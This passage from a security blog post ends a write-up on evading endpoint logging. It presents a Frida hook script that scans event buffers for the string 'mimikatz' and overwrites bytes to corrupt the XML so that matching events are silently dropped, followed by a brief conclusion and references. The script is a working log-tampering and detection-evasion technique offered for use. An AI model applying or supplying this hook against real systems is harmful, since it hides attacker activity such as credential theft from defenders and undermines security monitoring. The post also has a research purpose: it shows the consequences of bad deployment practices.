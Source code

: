 ![](cb3c783d1d89a254879f747802dbc009.png)

Doing a simple string substitute is useful, but sometimes we might just want to drop specific events. To do so, we can hook the same function using frida and instead of replacing the matched bytes (`mimikatz` in our case) we can break the XML parser and the event will just be dropped.

Now, my Frida skills are pretty limited and therefore I had to ask some help to the Frida master Stefano ([@r3dx0f](https://twitter.com/r3dx0f)). After some classic Italian swearings, we managed to drop the events that matched a particular keyword.
The resulting script is the following:

```

{
onEnter: function (log, args, state) {
    this.ptr = args[7];
    this.size = args[6].toInt32();

  },

  onLeave: function (log, retval, state) {
    var pattern = "6d 00 69 00 6d 00 69 00 6b 00 61 00 74 00 7a 00"; //mimikatz
            var res = Memory.scanSync(
                this.ptr,
                this.size,
                pattern
            );

            if (res.length > 0){
              send("Patching: " + ptr(this.ptr));
              Memory.protect(ptr(this.ptr), 16, "rwx");
                ptr(this.ptr).writeByteArray([0x00,0x00,0x2f,0x00,0x45,0x00,0x76,0x00,0x65,0x00,0x6e,0x00,0x74,0x00,0x3e,0x00])
            }  
  }
}
```
Pretty f***ing evil right?

The difference between this and the previous script is the following: after checking if the `Memory.scanSync` function has more than one result, we go back at `this.ptr` (which is the pointer to the start of the event entry) and add a `0x00,0x00` (null byte, UTF-16) that breaks the entire parsing.

## Conclusion

Elasticsearch is not broken, the world is not ending. This just shows the consequences of bad deployment practices, from a different point of view.

I hope you enjoyed it and if you have any questions reach me on twitter at [@dottor_morte](https://twitter.com/dottor_morte)

## References

* [FuzzySecurity - Application Introspection & Hooking With Frida](https://www.fuzzysecurity.com/tutorials/29.html)
* [FuzzySecurity - Fermion](https://github.com/FuzzySecurity/Fermion)
